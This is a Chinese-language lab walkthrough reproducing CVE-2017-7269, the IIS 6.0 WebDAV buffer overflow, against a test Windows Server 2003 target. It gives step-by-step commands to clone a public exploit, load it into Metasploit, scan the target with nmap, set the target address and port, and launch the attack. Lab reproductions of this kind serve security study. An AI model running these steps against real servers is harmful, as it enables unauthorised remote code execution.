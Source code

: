 （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞
=================================================

一、漏洞简介
------------

IIS
6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对
Windows Server 2003 R2 可以稳定利用。

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

目标主机：Windows Server 2003 R2镜像下载：种子文件用迅雷下载:

    ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/

IP：192.168.1.104

A.安装IIS6.0服务：

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId25.png)

B.打开WebDAV服务拓展：

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId26.png)

攻击机：kali Linux镜像下载：https://www.kali.org/downloads/IP:192.168.1.106

### 配置攻击套件

\--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp
>
> ls //查看当前目录下的文件

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId28.png)

\--然后我们需要复制EXP到msf框架中\#注意复制时，是下划线"\_"不要写成cve-2017-7269.rb\#，在目录下重命名这个文件为cve\_2017\_7269.rb，输入：

> cp cve\_2017\_7269.rb
> /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //复制EXP到相应目录
>
> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/
> //进入目录
>
> ls //查看当前目录下的文件

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId29.png)

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId30.png)

\--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId31.png)

可以看到我们要攻击的80端口已经开启\#

### 利用msf开始攻击

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId33.png)

\--然后我们要使用刚才复制进去的EXP套件输入：

    msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件
    msf5 > show options //查看需要的配置

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId34.png)

    msf5 > set rhosts 192.168.1.104 // 设置目标的IP
    msf5 > set rport 80 //设置目标端口

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId35.png)

    msf5 > exploit

![](./.resource/(CVE-2017-7269)IIS6.0开启Webdav缓存区溢出漏洞/media/rId36.png)
